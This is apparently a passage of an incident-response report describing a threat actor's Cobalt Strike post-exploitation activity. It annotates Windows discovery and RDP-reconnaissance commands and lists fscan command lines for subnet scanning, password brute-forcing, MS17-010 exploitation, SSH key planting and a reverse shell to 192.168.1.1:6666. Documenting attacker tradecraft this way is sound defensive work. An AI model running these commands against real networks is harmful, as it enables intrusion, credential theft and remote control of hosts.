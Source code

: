 The reporting features exposed all payloads injected using process hollowing. 

# Cobalt Strike Post-Exploitation

This threat actor appeared to use Cobalt Strike for persistence, privilege escalation, defence evasion, lateral movement and information harvesting. From Cobalt Strike logs, we were able to ascertain commands run and tooling executed by the threat actor: 

## Misc

```
C:\ProgramData\mdm.txt
C:\ProgramData\1.txt
C:\ProgramData\GetCLSID.ps1
```

Likely staging files. GetCLSID.ps1 could be a script for enumerating COM CLSIDs or checking for hijack opportunities.

## Discovery

`net user` - lists all user accounts
`systeminfo` - Displays OS version, build, hotfixes, domain info, uptime
`ipconfig /all` - Displays network config, IPs, etc
`netstat -ano | findstr :3389` - Looking for port 3389 (RDP)
`sc query TermService` - Checks status of Remote Desktop Services.
`%windir%/system32/inetsrv/appcmd list sites` - Lists all IIS websites configured on the host.

`for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="q` - Ping sweep across 192.168.1.1 → 192.168.1.254 for live hosts.

`schtasks /query /tn "MaintainRDP"`

* Queries the scheduled task MaintainRDP (a persistence mechanism).

`reg query "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections`

* Checks if RDP connections are allowed (0 = allowed, 1 = denied).

`reg query "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber`

* Reads the configured RDP port (default 3389).


`netsh advfirewall firewall show rule name=all | findstr "443" `

* Looks for firewall rules mentioning port 443 (commonly abused to hide RDP or tunnels).

```bash
fscan.exe -h 192.168.1.1/24 -np -no -nopoc 
fscan.exe -h 192.168.1.1/24 - rf id_rsa.pub 
fscan.exe -h 192.168.1.1/24 - rs 192.168.1.1:6666 
fscan.exe -h 192.168.1.1/24 -c whoami fscan.exe - h 192.168.1.1/24 -m ssh -p 2222 
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt 
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt 
fscan.exe -h 192.168.1.1/8 
fscan.exe -h 192.168.1.1/24 -m smb -pwd password 
fscan.exe -h 192.168.1.1/24 -m ms17010 fscan.exe -hf ip.txt (# ####) 
fscan.exe -u http://baidu.com -proxy 8080 
fscan.exe -h 192.168.1.1/24 -nobr -nopoc 
fscan.exe -h 192.168.1.1/24 -pa 3389
```
